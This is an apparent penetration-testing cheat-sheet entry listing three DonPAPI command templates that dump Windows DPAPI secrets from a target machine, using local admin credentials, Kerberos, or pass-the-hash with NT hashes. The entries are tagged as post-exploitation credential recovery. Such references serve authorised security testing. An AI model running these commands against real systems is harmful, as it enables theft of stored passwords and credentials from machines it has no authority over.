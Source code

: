 # DonPAPI

% DonPAPI, dpapi

## DonPAPI - Dump all secrets of the target machine with Local Admin
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

```
DonPAPI -local_auth <user>@<target>
```

## DonPAPI - Dump all secrets of the target machine with Local Admin (kerberos)
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

```
DonPAPI -k <domain><user>@<target>
```

## DonPAPI - Dump all secrets of the target machine with Local Admin (pth)
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

```
DonPAPI --hashes <LM>:<NT> <domain><user>@<target>
```